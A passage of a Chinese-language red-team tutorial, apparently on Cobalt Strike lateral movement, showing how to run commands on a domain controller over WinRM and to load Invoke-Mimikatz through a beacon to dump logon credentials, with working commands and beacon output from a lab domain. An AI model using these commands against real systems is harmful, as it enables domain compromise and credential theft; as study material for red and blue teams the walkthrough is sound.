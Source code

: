 WinRM 运行在 5985 端口上，WinRM 是 Windows 远程管服务，使用 WinRM 可以使远程管理更容易一些。

如果想利用 WinRM 运行命令则可以使用下面的命令。
```bash
powershell Invoke-Command -ComputerName TARGET -ScriptBlock {command here}
beacon> powershell Invoke-Command -ComputerName WinDC -ScriptBlock { net localgroup administrators}
[*] Tasked beacon to run: Invoke-Command -ComputerName WinDC -ScriptBlock { net localgroup administrators}
[+] host called home, sent: 303 bytes
[+] received output:
别名     administrators
注释     管理员对计算机/域有不受限制的完全访问权
成员
-------------------------------------------------------------------------------
Administrator
Domain Admins
Daniel
Enterprise Admins
```
命令成功完成。
注：如果命令运行失败可能是因为 WinRM 配置原因，可在 powershell 环境下运行 winrm quickconfig命令，输入 y 回车即可。

命令运行后的结果，WinRM 也将通过命令行进行显示，因此可以使用 Powershell 的 Invoke 命令来作为远程工具，而不使用其他的恶意软件来控制系统。

通过 WinRM 运行 Mimikatz

更进一步，甚至可以使用 PowerSploit 来通过 WinRM 运行 Mimikatz，只需要先导入 Invoke-Mimikatz.ps1 文件，再执行以下命令即可。

powershell-import /path/to/Invoke-Mimikatz.ps1
powershell Invoke-Mimikatz -ComputerName TARGET
注：之前提了很多次的 PowerView 也是 PowerSploit 项目里众多 ps1 文件之一，Mimikatz 的 ps1 文件在 PowerSploit 项目的 Exfiltration 目录下，PowerSploit 项目下载地址：https://github.com/PowerShellMafia/PowerSploit/(opens new window)

因为 beacon 上传文件大小限制在1MB，而 Invoke-Mimikatz.ps1 文件大小在 2 MB 多，因此直接运行 powershell-import 导入该文件会报错，这里可以选择使用 beacon 中的 upload 命令或者在当前会话的 File Browser 图形界面中上传该文件。

upload C:\path\Invoke-Mimikatz.ps1
上传之后通过 dir 命令可以查看到文件被上传到了C盘下，之后可以运行以下命令来导入该文件。

powershell import-module C:\Invoke-Mimikatz.ps1
最后再运行以下命令就能通过 WinRM 执行 Mimikatz 了。

powershell Invoke-Mimikatz -ComputerName TARGET
如果提示无法将“Invoke-Mimikatz”项识别为 cmdlet、函数……，则可以将两条命令以分号合并在一起运行，即：
```bash
powershell import-module C:\Invoke-Mimikatz.ps1 ; Invoke-Mimikatz -ComputerName TARGET
beacon> powershell import-module C:\Invoke-Mimikatz.ps1 ; Invoke-Mimikatz -ComputerName WinDC
[*] Tasked beacon to run: import-module C:\Invoke-Mimikatz.ps1 ; Invoke-Mimikatz -ComputerName WinDC
[+] host called home, sent: 287 bytes
[+] received output:

  .#####.   mimikatz 2.1 (x64) built on Nov 10 2016 15:31:14
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 20 modules * * */

mimikatz(powershell) # sekurlsa::logonpasswords

Authentication Id : 0 ; 314628 (00000000:0004cd04)
Session           : Interactive from 1
User Name         : administrator
Domain            : TEAMSSIX
Logon Server      : WinDC
Logon Time        : 2020/8/20 23:53:08
SID               : S-1-5-22-3301978333-983314215-684642015-500
```